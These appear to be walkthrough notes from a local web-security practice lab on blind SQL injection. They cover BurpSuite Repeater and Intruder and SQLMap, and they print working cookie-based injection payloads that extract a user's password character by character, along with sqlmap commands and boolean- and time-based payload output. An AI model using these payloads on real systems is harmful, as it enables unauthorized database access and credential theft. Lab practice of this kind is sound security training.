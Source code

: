 This will return the list of email addresses and their corresponding passwords:

```
Username: jeremy@example.com - Email: jeremyspassword
Username: jessamy@example.com - Email: jessamyspassword
Username: bob@example.com - Email: bobspassword
```

## SQL Injection - Blind

### BurpSuite

1. Open BurpSuite.
2. Add `http://localhost` to the Target > Scope section.
3. Open `http://localhost/labs/i0x02.php` in BurpSuite's browser (or in Firefox via FoxyProxy).
4. Log in with the credentials `jeremy:jeremy`, and send the request to the Repeater.
   - A successful request returns a response with a `Content-Length` of 1928.
   - When the credentials are incorrect, the `Content-Length` is 2122.

### SQLMap

1. Copy the POST request into a text file (e.g., `request.txt`).
2. To use SQLMap, run the command: `sqlmap -r request.txt`
3. SQLMap didn't find any potential vulnerabilities in this request.

### Substring in Cookies

- We have a GET request with the session parameter in the Cookie. We can try to intercept that and add a substring for testing.
- Modify the request as follows: `Cookie: session=6967cabefd763ac1a1a88e11159957db' and substring('alex',1,1)='a'#`
- Since the injected condition is true (the first character of the string 'alex' is 'a'), the query returns a result, and the web page loads normally. This confirms that we can inject substrings.

### BurpSuite Intruder

- We can use BurpSuite's Intruder tool to test each letter of the alphabet to find the first letter in Jessamy's password. Set up the payload as follows: `Cookie: session=6967cabefd763ac1a1a88e11159957db' and substring((select password from injection0x02 where username = 'jessamy'),1,1)='§letter§'#`
- The correct payload will yield a different `Content-Length`. Here, the password starts with Z, the `Content-Length` is 1347 instead of 2247/48.

### SQLMap

- Save the GET request without the substring payload in a file (e.g., `request2.txt`).
- Run SQLMap with the following command: `sqlmap -r request2.txt --level=2`. `level=2` is for cookies as parameter. Agree to all prompts as needed.

```
sqlmap identified the following injection point(s) with a total of 366 HTTP(s) requests:
---
Parameter: session (Cookie)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: session=6967cabefd763ac1a1a88e11159957db' AND 1204=1204 AND 'DBbN'='DBbN

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: session=6967cabefd763ac1a1a88e11159957db' AND (SELECT 1206 FROM (SELECT(SLEEP(5)))xhQZ) AND 'hVfr'='hVfr
---
```
